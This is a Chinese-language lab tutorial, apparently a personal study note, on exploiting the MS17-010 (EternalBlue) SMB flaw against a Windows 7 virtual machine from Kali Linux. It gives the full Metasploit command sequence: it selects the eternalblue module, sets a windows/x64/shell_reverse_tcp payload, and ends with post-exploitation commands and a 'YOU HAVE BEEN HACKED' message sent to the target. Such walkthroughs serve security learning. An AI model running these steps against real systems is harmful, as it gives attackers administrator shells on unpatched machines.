



利用MS17-010，在Kali Linux下使用Metasploit来模拟入侵Windows7。
前言
紧张刺激的黑客入侵，竟是由它MS17-010所引发的。
[1]本次模拟入侵均在VMware虚拟机下进行，非真实入侵
[2]本文谨作个人学习记录，他人不可用作非法入侵
环境介绍
[1]网络环境：VMware虚拟机里同一网段下的Kali Linux和Windows 7
[2]实用工具：Metasploit本文所采用的工具
[3]利用漏洞：MS17-010是本次入侵的罪恶源泉
利用过程
检查网络
Kali Linux
打开终端(Terminal)，输入ifconfig，将eth0里inet的IP地址记录下。
Windows 7
这里我们用最常用的Windows 7做示范。
打开命令提示符(cmd)，输入ipconfig，将IPv4 地址记录下。
搜索模块
打开Metasploit，搜索漏洞利用模块
1 | search MS17-010 |

利用Exploit
输入指令
1 | msf > use exploit/windows/smb/ms17_010_eternalblue |

使用Payload
显示相关可使用的Payloads
1 | show payloads |

选择正确的Payloads
这里显示有很多Payloads，但是不同的Payload利用的方式可能不太一样，所以选用的时候要慎重。这里我们选择windows/x64/shell_reverse_tcp，输入指令。
1 | set payload windows/x64/shell_reverse_tcp |
设置Payload
调整Payload的相关配置，做最后的调整，以完成精确打击。
1 | show options |

设置本机IP(LHOST)
1 | set LHOST Kali的IPV4地址 |

设置目标IP(RHOST)
1 | set RHOST Win7的IPv4地址 |

检查Payload
再输入一次show options，检查一遍配置是否写入，就可以开始利用了
开始攻击
输入指令，开始利用Payload
1 | exploit |
我们和对方已经建立起连接，显示我们已经攻击成功[√]
输入指令whoami，查看我们获取的权限是管理员权限。

再输入指令systeminfo，对系统进行大致了解

发现有乱码，仔细查看有zh-cn字样，于是这样设置终端(T)->设定字符编码(C)->简体中文——GBK

于是乱码就解决啦~那我们来个有趣的命令吧，向目标主机发送一条消息。
1 | msg /server:192.168.88.130 * "YOU HAVE BEEN HACKED" |
总结
[1] Metasploit是国外一款强大的黑客工具，里面的一些专有词汇还有用英文为好，避免使词的意思失去保真性。
[2] MS17-010(永恒之蓝)这个漏洞非常强大，类似的还有像[MS12-020]，[MS08_067]这样的漏洞，是我们应该掌握和熟悉的。
[3] 入侵过程中会遇到一些小问题，例如入侵成功后反弹回的Windows shell不能使用上下左右键。以及，字体不能正常显示等问题。
[4] 在搭建测试环境的时候，尤其是搭建网络的时候，网络适配器选项里一定要选用NAT模式。
[5] 成功入侵后能进行的操作非常多，毕竟是最高权限。但千万不能拿来做违法的事，这个是必须要记住的。